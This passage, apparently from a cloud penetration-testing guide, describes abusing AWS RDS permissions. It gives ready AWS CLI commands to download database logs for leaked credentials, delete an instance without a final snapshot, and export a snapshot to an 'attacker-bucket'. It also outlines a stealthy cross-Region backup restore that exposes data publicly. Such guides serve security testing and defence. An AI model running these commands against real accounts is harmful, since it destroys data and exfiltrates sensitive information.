 ### `rds:DownloadDBLogFilePortion`

An attacker with the `rds:DownloadDBLogFilePortion` permission can **download portions of an RDS instance's log files**. If sensitive data or access credentials are accidentally logged, the attacker could potentially use this information to escalate their privileges or perform unauthorized actions.

```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```

**Potential Impact**: Access to sensitive information or unauthorized actions using leaked credentials.

### `rds:DeleteDBInstance`

An attacker with these permissions can **DoS existing RDS instances**.

```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```

**Potential impact**: Deletion of existing RDS instances, and potential loss of data.

### `rds:StartExportTask`

> [!NOTE]
> TODO: Test

An attacker with this permission can **export an RDS instance snapshot to an S3 bucket**. If the attacker has control over the destination S3 bucket, they can potentially access sensitive data within the exported snapshot.

```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```

**Potential impact**: Access to sensitive data in the exported snapshot.

### Cross-Region Automated Backups Replication for Stealthy Restore (`rds:StartDBInstanceAutomatedBackupsReplication`)

Abuse cross-Region automated backups replication to quietly duplicate an RDS instance's automated backups into another AWS Region and restore there. The attacker can then make the restored DB publicly accessible and reset the master password to access data out-of-band in a Region defenders might not monitor.

Permissions needed (minimum):
- `rds:StartDBInstanceAutomatedBackupsReplication` in the destination Region
- `rds:DescribeDBInstanceAutomatedBackups` in the destination Region
- `rds:RestoreDBInstanceToPointInTime` in the destination Region
- `rds:ModifyDBInstance` in the destination Region
- `rds:StopDBInstanceAutomatedBackupsReplication` (optional cleanup)
- `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress` (to expose the restored DB)
